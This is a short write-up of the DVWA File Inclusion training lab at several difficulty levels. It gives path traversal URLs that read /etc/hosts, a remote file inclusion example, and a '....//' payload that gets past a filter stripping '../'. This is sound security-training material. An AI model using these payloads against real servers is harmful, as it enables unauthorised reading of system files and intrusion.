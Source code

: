 # Difficulty - Low

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Inclusion/Sources/low.php)


We can display any file from the system like that:

`/vulnerabilities/fi/?page=./../../../../../etc/hosts`

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Inclusion/Pictures/1.png)

Or even a site like:
`/vulnerabilities/fi/?page=https://www.google.com`



# Difficulty - Medium

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Inclusion/Sources/medium.php)

The php script will remove now  `../` and `.."`.

So we will try something like this:

`/vulnerabilities/fi/?page=./....//....//....//....//....//etc/hosts`

Now, removing `../` our url will be 
`/vulnerabilities/fi/?page=./../../../../../etc/hosts`

![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Inclusion/Pictures/2.png)



# Difficulty - High

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Inclusion/Sources/high.php)

The php script will return now files like `file*` and `include.php`

This file is now available:
![...](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Inclusion/Pictures/3.png)



# Difficulty - Impossible

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/File%20Inclusion/Sources/impossible.php)
